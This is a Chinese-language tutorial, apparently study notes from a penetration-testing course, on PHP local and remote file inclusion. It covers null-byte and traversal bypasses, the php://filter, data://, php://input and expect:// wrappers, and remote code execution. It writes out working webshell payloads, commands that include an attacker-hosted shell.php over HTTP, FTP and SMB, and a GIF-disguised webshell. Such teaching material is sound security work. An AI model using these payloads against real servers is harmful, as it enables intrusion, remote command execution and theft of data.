PHP 5.5 之前的版本存在 null byte injection 漏洞，这意味着在字符串末尾添加一个空字节（ %00 ）会导致字符串终止，并且忽略其后的所有内容。这是由于字符串在底层内存中的存储方式所致，内存中的字符串必须使用空字节来指示字符串的结尾，这与汇编语言、C 或 C++ 语言中的实现方式类似。

为了利用这个漏洞，我们可以在有效载荷末尾添加一个空字节（例如 /etc/passwd%00 ），这样传递给 include() 最终路径就变成了 /etc/passwd%00.php 。如此一来，即使 .php 被附加到字符串末尾，空字节之后的所有内容都会被截断，因此实际使用的路径将是 /etc/passwd ，从而绕过附加的扩展名。

## 练习

Web 应用程序使用了多个过滤器来防止本地文件包含攻击 (LFI)。尝试绕过这些过滤器来读取 /flag.txt 文件。试着看看常规功能使用的路径是什么。

`GET /index.php?language=languages/..././..././..././..././..././flag.txt`



# PHP包装器

许多主流 Web 应用均基于 PHP 开发，还有各类基于 Laravel、Symfony 等不同 PHP 框架构建的定制化 Web 应用。
若我们在 PHP 应用中发现本地文件包含（LFI）漏洞，便可利用各类 PHP 包装器（[PHP Wrappers](https://www.php.net/manual/en/wrappers.php.php)）拓展 LFI 漏洞的利用范围，甚至可能实现远程代码执行（RCE）。
PHP 包装器允许我们在应用层访问不同的 I/O 流（如标准输入 / 输出、文件描述符、内存流），这对 PHP 开发者而言有诸多实用价值。但对 Web 渗透测试人员来说，我们可借助这些包装器拓展攻击手段：读取 PHP 源码文件，甚至执行系统命令。该技巧不仅适用于 LFI 攻击，也可用于 XXE 等其他 Web 攻击（如《Web 攻击模块》中所述）。

| **包装器名称**  | **作用**             | **备注**                            |
| --------------------- | -------------------------- | ----------------------------------------- |
| **`file://`** | 访问本地文件系统           | PHP 默认使用的包装器                      |
| **`http://`** | 访问 HTTP(s) URL           | 远程资源访问                              |
| **`ftp://`**  | 访问 FTP(s) URL            | 远程资源访问                              |
| **`php://`**  | 访问各种 I/O 流            | 包含 `php://filter`, `php://input` 等 |
| **`zlib://`** | 压缩流                     | 处理 `gz` 格式数据                      |
| **`data://`** | **数据（RFC 2397）** | **直接将数据嵌入流中**              |
| **`glob://`** | 查找匹配的文件路径         | 类似 shell 的 glob 模式                   |
| **`phar://`** | PHP 归档                   | 处理 `.phar` 文件                       |
| **`ssh2://`** | Secure Shell 2             | 执行远程命令或文件传输                    |
| **`rar://`**  | RAR 压缩包                 | 处理 RAR 文件                             |

## PHP Fiters

[PHP Filters](https://www.php.net/manual/en/filters.php) 是 PHP 包装器的一种 —— 我们可传入不同类型的输入数据，并通过指定的过滤器对其进行处理。
要使用 PHP 流包装器，需在字符串中使用 `php:// `协议，而访问 PHP 过滤器包装器则需使用 `php://filter/ `。

过滤器包装器包含多个参数，其中攻击所需的核心参数为 resource 和 read：

* resource 参数是过滤器包装器的必选参数，用于指定要应用过滤器的流（例如本地文件）；
* read 参数可对输入的资源应用不同过滤器，用于指定要在目标资源上执行的过滤器类型。

[PHP Filters](https://www.php.net/manual/en/filters.php)分为四类：

1. 字符串过滤器（[String Filters](https://www.php.net/manual/en/filters.string.php)）、
2. 转换过滤器（[Conversion Filters）](https://www.php.net/manual/en/filters.convert.php)、
3. 压缩过滤器（[Compression Filters](https://www.php.net/manual/en/filters.compression.php)）
4. 加密过滤器（[Encryption Filters](https://www.php.net/manual/en/filters.encryption.php)）。

你可通过对应链接了解各类过滤器的详情，其中对 LFI 攻击最有用的是「转换过滤器」下的 convert.base64-encode 过滤器。

使用方法

https://www.php.net/manual/zh/wrappers.php.php#refsect1-wrappers.php-examples

## Data warpper

[data wrapper](https://www.php.net/manual/en/wrappers.data.phphttps://www.php.net/manual/en/wrappers.data.php) 可用于包含外部数据（包括 PHP 代码），但该包装器 仅在 PHP 配置中启用 `allow_url_include `选项时才能使用。因此，我们首先需要通过 LFI 漏洞读取 PHP 配置文件，确认该选项是否开启。

| **封装协议**         | **需要 allow_url_fopen** | **需要 allow_url_include** | **物理性质**                  |
| -------------------------- | ------------------------------ | -------------------------------- | ----------------------------------- |
| **`file://`**      | 否                             | 否                               | 本地文件系统                        |
| **`php://filter`** | 否                             | 否                               | 内部 I/O 处理流                     |
| **`php://input`**  | 否                             | **是**                     | 原始请求体                          |
| **`data://`**      | **是**                   | **是**                     | **内存数据流 (但被视为 URL)** |
| **`http://`**      | **是**                   | **是**                     | 远程网络资源                        |
| **`phar://`**      | 否                             | 否                               | 本地归档格式                        |

### 检查 PHP 配置

Apache 服务器的 PHP 配置文件路径为 ` /etc/php/X.Y/apache2/php.ini`，Nginx 服务器则为 ` /etc/php/X.Y/fpm/php.ini`（其中 X.Y 为服务器安装的 PHP 版本）。我们可先尝试最新的 PHP 版本，若未找到配置文件再尝试更早的版本。

同时，我们需使用上一节的 Base64 过滤器 ——.ini 文件与 .php 文件类似，编码后可避免内容解析异常。

最后，建议使用 cURL 或 Burp 而非浏览器发起请求，因为配置文件的输出内容可能极长，工具能更完整地捕获结果：

```shell
$ curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
<!DOCTYPE html>

<html lang="en">
...SNIP...
 <h2>Containers</h2>
    W1BIUF0KCjs7Ozs7Ozs7O
    ...SNIP...
    4KO2ZmaS5wcmVsb2FkPQo=
<p class="read-more">
```

获取 Base64 编码字符串后，解码并过滤 allow_url_include 字段查看其值：

```shell
$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```

很好！我们看到该选项已开启，因此可使用 data wrapper。

掌握检查 `allow_url_include` 的方法至关重要 —— 该选项默认关闭，
但却是多个 LFI 攻击（如使用 input 包装器、任意 RFI 攻击）的必要条件（后续会详细讲解）。
实际场景中该选项被开启的情况并不少见，许多 Web 应用（如部分 WordPress 插件和主题）依赖该选项才能正常运行。

### 使用方法

https://www.php.net/manual/zh/wrappers.data.php

## input warpper

php://input 是 PHP 内部实现的一个只读流（Read-only Stream），其核心功能是提供对 HTTP 请求主体（Request Body） 原始字节数据的直接访问。

在标准的 HTTP POST 请求中，数据分为两部分：**请求头Header **和 **请求体（Body）**。

通常 PHP 的 `$_POST` 只会解析 `key=value` 这种格式的数据。但如果你发送的是一段纯文本、XML 或是 **PHP 代码**，`$_POST` 就会落空。

与 `$_POST` 的解析差异

- **`$_POST` (超全局数组)**：仅当 `Content-Type` 为 `application/x-www-form-urlencoded` 或 `multipart/form-data` 时，PHP 解释器会自动解析 Body 数据并填充该数组。
- **`php://input`**：绕过了解析器，直接读取原始二进制流。无论请求头中定义的 `Content-Type` 是 `application/json`、`application/xml` 还是自定义 MIME 类型，它均能获取完整数据。

例如:

前端发送的请求：

```http
POST /api/user.php HTTP/1.1
Content-Type: application/json

{"username": "admin", "id": 123}
```

后端的 `user.php` 必须这样写：

```php
<?php
// 此时 $_POST 是空的！因为数据不是 key=value 格式。
// 我们必须用 php://input 拿到那串 JSON 字符串。

$raw_data = file_get_contents("php://input"); 
// $raw_data 现在等于 '{"username": "admin", "id": 123}'

$user = json_decode($raw_data, true);
echo "欢迎，" . $user['username'];
?>
```

## expect warpper

expect:// 是一个由 PECL (PHP Extension Community Library) 提供的扩展包装器。在现代标准 PHP 安装中默认是不存在的。其设计初衷是提供一种与交互式进程通信的机制。它允许 PHP 通过流（Stream）的形式打开一个系统命令，并与其标准输入/输出进行交互。

协议格式：expect://command

执行方式：当你使用 file_get_contents("expect://ls") 时，系统会启动一个子进程执行 ls，并将该进程的输出流返回给 PHP。

与 data:// 或 php://input 不同，expect:// 的本质是 直接的进程执行，而不仅仅是代码包含。

```php
// 假设 expect 扩展已安装并启用
$output = file_get_contents("expect://whoami");
echo $output; // 输出当前运行 PHP 进程的用户
```

由于其直接执行系统命令的高危特性，绝大多数生产环境严禁安装此扩展。在现代安全审计中，expect:// 属于“如果存在则一击必杀”，但“实际存在率极低”的漏洞点。

# 使用过滤器读取源码

在前述章节中，若你尝试通过 LFI 包含任意 PHP 文件，会发现被包含的 PHP 文件会直接执行，最终渲染为普通 HTML 页面。例如，尝试包含 config.php 页面（Web 应用会自动追加 .php 扩展名）：



如你所见，LFI 对应的位置仅返回空结果 —— 这是因为 config.php 通常仅用于初始化应用配置，不会输出任何 HTML 内容。

这种行为在某些场景下有用（例如访问无直接访问权限的本地 PHP 页面，如 SSRF 场景），但多数情况下，我们更希望通过 LFI 读取 PHP 源码（源码往往包含应用的关键信息）。

此时 base64 格式的 PHP 过滤器就可发挥作用：我们可通过它对 PHP 文件进行 Base64 编码，获取编码后的源码（而非执行并渲染文件）。该技巧对「自动追加 PHP 扩展名的 LFI 场景」尤为实用 —— 正如前文所述，这类场景通常仅允许包含 PHP 文件。

> [!NOTE]
>
> 注意：该逻辑同样适用于 PHP 以外的 Web 开发语言，前提是漏洞函数会执行文件；若漏洞函数仅读取文件（不执行），则可直接获取源码，无需额外过滤器 / 函数。可参考第 1 节的「函数权限表」了解不同函数的行为。

一旦我们有了想要读取的潜在 PHP 文件列表，就可以开始使用 base64 PHP 过滤器来获取它们的源代码。

让我们尝试使用 base64 过滤器读取 config.php 的源代码，将 read 参数指定为 convert.base64-encode ，将 resource 参数指定为 config ，如下所示：通过 Base64 格式的 PHP 过滤器泄露其源码。例如，读取 config.php 源码时，需为 read 参数指定 convert.base64-encode，为 resource 参数指定 config，构造如下 payload：

```url
php://filter/read=convert.base64-encode/resource=config
```



> [!NOTE]
>
> 注意： 对于当前的案例,我们特意将资源文件放在字符串的末尾，因为 .php 扩展名会自动附加到输入字符串的末尾，这将使我们指定的资源变成 config.php 。

```php
<?php
// 1. 接收 URL 中的 language 参数（无任何过滤，存在 LFI 漏洞）
$language = $_GET['language'];

// 2. 网站自动给参数追加 .php 扩展名（之前提到的“核准路径/扩展名限制”）
$file = $language . '.php';

// 3. 用 include() 包含目标文件（核心漏洞点）
//当前的$file="php://filter/read=convert.base64-encode/resource=config.php"
include($file);

?>
```

正如我们所见，与常规的本地文件包含（LFI）攻击不同，使用 base64 过滤器返回的是一个编码字符串，而不是之前看到的空结果。现在我们可以解码这个字符串来获取 config.php 的源代码内容，如下所示：

```shell
$ echo 'PD9waHAK...SNIP...KICB9Ciov' | base64 -d

...SNIP...

if ($_SERVER['REQUEST_METHOD'] == 'GET' && realpath(__FILE__) == realpath($_SERVER['SCRIPT_FILENAME'])) {
  header('HTTP/1.0 403 Forbidden', TRUE, 403);
  die(header('location: /index.php'));
}

...SNIP...
```

> [!NOTE]
>
> 复制 Base64 编码的字符串时，请务必复制整个字符串，否则将无法完全解码。您可以查看页面源代码，以确保复制了整个字符串。

# 远程代码执行RCE

从本节开始，我们将学习如何借助文件包含漏洞在后端服务器执行代码，进而获取服务器控制权。
实现远程命令执行的方法有很多，每种方法都有其特定适用场景 —— 这取决于后端使用的语言 / 框架，以及存在漏洞的函数的功能权限。获取后端服务器控制权的一种简单且常见的方法是：枚举用户凭据和 SSH 密钥，然后通过 SSH 或其他远程会话方式登录服务器。例如，我们可能在 config.php 这类文件中找到数据库密码，而若用户存在密码复用行为，该密码可能与服务器用户的登录密码一致；此外，我们还可检查各用户主目录下的 .ssh 目录，若其读取权限配置不当，我们就能窃取用户私钥（id_rsa），并通过该私钥 SSH 登录系统。
除了这类简易方法外，还存在无需依赖数据枚举或本地文件权限、直接通过漏洞函数实现远程代码执行的方式。本节我们将先讲解 PHP Web 应用的远程代码执行方法：基于之前所学内容，利用各类 `PHP wrapper `实现远程代码执行；后续章节还会介绍其他可用于 PHP 及其他语言的远程代码执行方法。

## 使用data wrapper

如前所述，data 伪协议可包含外部数据（包括 PHP 代码）；我们还可通过 text/plain;base64, 传入 Base64 编码字符串，该伪协议会自动解码并执行其中的 PHP 代码。

第一步，对一个基础的 PHP WebShell 进行 Base64 编码：

```shell
$ echo '<?php system($_GET["cmd"]); ?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```

接下来，对该 Base64 字符串进行 URL 编码，然后通过 `data://text/plain;base64,编码字符 `；最后通过 `&cmd=<COMMAND>` 向 WebShell 传递要执行的命令：

```url
http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
```



也可使用 cURL 执行该攻击：

```shell
$ curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
            uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## 使用 input  wrapper

与 `data  wrapper`类似，[input  wrapper](https://www.php.net/manual/en/wrappers.php.php)也可包含外部输入并执行 PHP 代码，核心区别在于：需将输入内容作为 **POST 请求**的数据体传递给 `input  wrapper`。因此，**该攻击要求漏洞参数支持接收 POST 请求**；此外，`input  wrapper`同样依赖 `allow_url_include` 配置项（如前文所述）。

若要使用 `input  wrapper`复现上述攻击，需向漏洞 URL 发送 POST 请求，并将 WebShell 作为 POST 数据体；执行命令的方式与之前一致，仍通过 GET 参数传递：

```shell
$ curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
            uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

> 注意：若通过 GET 请求传递命令，要求漏洞函数支持接收 GET 请求（如使用 `$_REQUEST` 获取参数）；若函数仅支持 POST 请求，则需将命令直接写入 PHP 代码中，而非使用动态 WebShell（例如：`<?php system('id'); ?>`）。

## 使用expect wrapper

expect 是一个外部封装库，因此需要在后端服务器上手动安装和启用。不过，有些 Web 应用的核心功能依赖于它，所以我们可能会在某些特定情况下找到它。我们可通过与检查 allow_url_include 相同的方式，在 PHP 配置文件中过滤 expect 关键字，确认其是否配置加载：

```shell
$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect

extension=expect
```

可见配置文件中存在 extension=expect 指令，说明服务器已配置尝试加载 expect 扩展。但这并不代表该扩展在运行时一定可用（可能因多种原因加载失败），因此需通过 expect:// 伪协议直接测试命令执行，确认其可用性：

```shell
$ curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id" | grep uid

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

如你所见，通过 expect 模块执行命令非常简单 —— 正如前文所述，该模块本身就是为命令执行设计的。《Web 攻击模块》还介绍了 expect 模块在 XXE 漏洞中的应用，若你掌握了此处的用法，便能轻松将其迁移到 XXE 漏洞场景中。
以上是通过 LFI 漏洞直接执行系统命令最常用的三种 PHP 伪协议。后续章节还会介绍 `phar wrapper`和 `zip wrapper`—— 若 Web 应用允许文件上传，可结合这两类wrapper通过 LFI 漏洞实现远程代码执行。

# 远程文件包含 (RFI)

在本模块此前的内容中，我们主要聚焦于本地文件包含（Local File Inclusion, LFI）漏洞。但在某些场景下，若存在漏洞的函数允许包含远程 URL，我们还可利用「远程文件包含（Remote File Inclusion, RFI）」漏洞 —— 这一漏洞能带来两大核心价值

1. 枚举仅本地可访问的端口和 Web 应用（即服务器端请求伪造，SSRF）；
2. 包含我们自行托管的恶意脚本，实现远程代码执行。

本节将讲解如何通过 RFI 漏洞实现远程代码执行。《服务器端攻击模块》中介绍的各类 SSRF 攻击技巧，也可结合 RFI 漏洞使用

## 本地文件包含（LFI）与远程文件包含（RFI）的区别

若存在漏洞的函数允许包含远程文件，我们可自行托管恶意脚本，再将其包含到漏洞页面中，执行恶意功能并实现远程代码执行。回顾之前的函数权限表，以下这些函数若存在漏洞，会导致远程文件包含（RFI）漏洞：

| **Function**               | **Read Content** | **Execute** | **Remote URL** |
| -------------------------------- | ---------------------- | ----------------- | -------------------- |
| **PHP**                    |                        |                   |                      |
| `include()`/`include_once()` | ✅                     | ✅                | ✅                   |
| `file_get_contents()`          | ✅                     | ❌                | ✅                   |
| **Java**                   |                        |                   |                      |
| `import`                       | ✅                     | ✅                | ✅                   |
| **.NET**                   |                        |                   |                      |
| `@Html.RemotePartial()`        | ✅                     | ❌                | ✅                   |
| `include`                      | ✅                     | ✅                | ✅                   |

可以看到，几乎所有 RFI 漏洞同时也是 LFI 漏洞—— 因为允许包含远程 URL 的函数，通常也支持包含本地文件；但反过来，LFI 漏洞却不一定能构成 RFI 漏洞。主要原因有三点：

1. 存在漏洞的函数本身不支持包含远程 URL；
2. 攻击者仅能控制文件名的一部分，无法操控完整的协议头（例如 http://、ftp://、https://）；
3. 服务器配置会直接阻断 RFI—— 现代主流 Web 服务器默认禁用远程文件包含功能。

此外，从上述表格中还能发现：部分函数虽允许包含远程 URL，但不支持代码执行。这种情况下，我们仍可利用该漏洞通过 SSRF 枚举本地端口和 Web 应用（无法执行代码，但可探测内网资源）。

## 验证 RFI 漏洞是否存在

在多数编程语言中，包含远程 URL 被视为高危操作（易引发漏洞），因此该功能通常默认禁用。例如在 PHP 中，要实现远程 URL 包含，必须开启 `allow_url_include` 配置项。我们可通过前文介绍的方法，利用 LFI 读取 PHP 配置文件，检查该选项是否开启：

```shell
$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```

但这种方法并非始终可靠 —— 即便该配置项已开启，存在漏洞的函数本身也可能不支持远程 URL 包含。

因此，验证 LFI 是否可升级为 RFI 的更可靠方法是：**尝试包含一个 URL，观察是否能获取其内容**。**实操时应先尝试包含「本地 URL」（如本机回环地址），避免攻击请求被防火墙或其他安全措施拦截**。

例如，我们可将 http://127.0.0.1:80/index.php 作为输入参数，测试是否能成功包含该 URL：

可以看到，`index.php` 页面被成功包含到了漏洞触发区域（即 “历史描述” 模块）—— 这说明该页面确实存在 RFI 漏洞，因为我们能够成功包含 URL 资源。

此外，`index.php` 并非以源码文本形式被包含，而是作为 PHP 代码执行并渲染输出，这意味着存在漏洞的函数还支持 PHP 代码执行；如此一来，若我们将托管在自己机器上的恶意 PHP 脚本通过该漏洞包含进去，就有可能实现代码执行。

我们还发现，通过指定 80 端口，我们成功获取了该端口上的 Web 应用内容。若后端服务器还部署了其他仅本地可访问的 Web 应用（例如运行在 8080 端口），我们便可在该 RFI 漏洞上结合 SSRF 技巧，访问到这些内网应用。

> 注意：不建议包含漏洞页面自身（如 `index.php`）—— 这可能引发递归包含循环，进而导致后端服务器出现拒绝服务（DoS）。

## 利用 RFI 实现RCE

实现远程代码执行的第一步，是编写与目标 Web 应用同语言的恶意脚本（本文中为 PHP）。我们可使用从网上下载的定制化 WebShell、反向 Shell 脚本，或像上一节那样自行编写基础 WebShell—— 本文将采用后者：

```shell
$ echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

接下来，我们只需托管该脚本，再通过 RFI 漏洞将其包含即可。建议监听 80 或 443 这类常用 HTTP 端口 —— 若目标漏洞应用部署了防火墙限制出站连接，这些端口大概率在白名单内。此外，我们也可通过 FTP 或 SMB 服务托管该脚本，这部分内容将在后续讲解。

### HTTP 方式托管脚本

我们可通过以下命令，在本地启动一个基础的 Python HTTP 服务器：

```shell
$ sudo python3 -m http.server <LISTENING_PORT>
Serving HTTP on 0.0.0.0 port <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) ...
```

现在，我们便可像之前测试 RFI 那样，将本地托管的 Shell 脚本通过 RFI 包含进去 —— 只需把地址替换为我们的 IP（`<OUR_IP>`）和监听端口（`<LISTENING_PORT>`）即可。同时，我们还可通过 `&cmd=id` 指定要执行的命令：

`http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id`



我们可以看到，我们确实在 Python 服务器上建立了连接，并且包含了远程 shell，并且我们执行了指定的命令：

```shell
$ sudo python3 -m http.server <LISTENING_PORT>
Serving HTTP on 0.0.0.0 port <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) ...

SERVER_IP - - [SNIP] "GET /shell.php HTTP/1.0" 200 -
```

> [!NOTE]
>
> 提示： 我们可以检查机器上的连接，以确保请求按照我们指定的格式发送。例如，如果我们发现请求中附加了一个额外的扩展名 (.php)，那么我们可以将其从有效载荷中省略掉。

### FTP方式托管脚本

如前所述，我们也可以通过 FTP 协议托管脚本。我们可以使用 Python 的 pyftpdlib 启动一个基本的 FTP 服务器，如下所示：

```shell
$ sudo python -m pyftpdlib -p 21

[SNIP] >>> starting FTP server on 0.0.0.0:21, pid=23686 <<<
[SNIP] concurrency model: async
[SNIP] masquerade (NAT) address: None
[SNIP] passive ports: None
```

如果防火墙阻止了 HTTP 端口，或者 Web 应用防火墙 (WAF) 阻止了 http:// 字符串，此方法也可能有用。要包含我们的脚本，我们可以重复之前的操作，但这次在 URL 中使用 ftp:// 方案，如下所示：
`http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id`


我们可以看到，这与我们的 http 攻击非常相似，命令也成功执行。默认情况下，PHP 会尝试以匿名用户身份进行身份验证。如果服务器需要有效的身份验证，则可以在 URL 中指定凭据，如下所示：

```shell
$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://<USER__NAME>:<PASS_WORD>@<OUR_IP>/shell.php&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### SMB方式托管脚本

如果存在漏洞的 Web 应用程序托管在 Windows 服务器上（我们可以从 HTTP 响应头中的服务器版本判断出来），那么我们无需启用 allow_url_include 设置即可利用 RFI 漏洞，因为我们可以使用 SMB 协议进行远程文件包含。这是因为 Windows 将远程 SMB 服务器上的文件视为普通文件，可以直接使用 UNC 路径引用。

我们可以使用 Impacket's smbserver.py 启动一个 SMB 服务器，该服务器默认支持匿名身份验证，如下所示：

```shell
#使用当前工作目录的绝对路径 作为share文件夹
$ impacket-smbserver -smb2support share $(pwd)
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

现在，我们可以使用 UNC 路径（例如 ` ` ）包含我们的脚本，并像之前一样使用 ( &cmd=whoami ) 指定命令：

`http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami`



从我们可以看到，这种攻击可以包含我们的远程脚本，并且我们不需要启用任何非默认设置。然而，我们必须注意，**如果我们在同一个网络中，这种技术更有可能起作用**，因为通过互联网访问远程SMB服务器可能默认情况下被禁用，这取决于Windows服务器的配置。

# LFI 和文件上传导致RCE

文件上传功能在大多数现代 Web 应用程序中都非常普遍，因为用户通常需要通过上传数据来配置个人资料和 Web 应用程序的使用方式。对于攻击者而言，将文件存储在后端服务器上的能力可能会扩大许多漏洞的利用范围，例如文件包含漏洞。

文件上传攻击模块涵盖了利用文件上传表单和功能的各种技术。然而，在本节中我们将要讨论的攻击中，我们并不需要文件上传表单本身存在漏洞，而只需要允许我们上传文件即可。

如果存在漏洞的函数具有代码 Execute 权限，那么无论文件扩展名或文件类型如何，只要我们包含上传的文件，其中的代码就会被执行。例如，我们可以上传一个图像文件（例如 image.jpg ），并在其中存储一段 PHP Web Shell 代码（而不是图像数据）。如果我们利用本地文件包含 (LFI) 漏洞包含该文件，PHP 代码就会被执行，从而实现远程代码执行。

如第一节所述，以下函数允许通过文件包含执行代码，其中任何一个都适用于本节中的攻击：

| **Function**               | **Read Content** | **Execute** | **Remote URL** |
| -------------------------------- | ---------------------- | ----------------- | -------------------- |
| **PHP**                    |                        |                   |                      |
| `include()`/`include_once()` | ✅                     | ✅                | ✅                   |
| `require()`/`require_once()` | ✅                     | ✅                | ❌                   |
| **NodeJS**                 |                        |                   |                      |
| `res.render()`                 | ✅                     | ✅                | ❌                   |
| **Java**                   |                        |                   |                      |
| `import`                       | ✅                     | ✅                | ✅                   |
| **.NET**                   |                        |                   |                      |
| `include`                      | ✅                     | ✅                | ✅                   |

## Image upload

图片上传在大多数现代 Web 应用程序中非常普遍，因为只要上传功能编写得当，图片上传通常被认为是安全的。然而，正如前文所述，此案例中的漏洞并非出在文件上传表单本身，而是出在文件包含功能上。

我们的第一步是创建一个包含 PHP Web shell 代码的恶意图像，该图像看起来和用起来都像普通图像。因此，我们将使用允许的图像扩展名作为文件名（例如 shell.gif ），并且还应该在文件内容的开头包含图像魔术字节（例如 GIF8 ），以防上传表单同时检查扩展名和内容类型。我们可以按如下方式操作：

```shell
$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

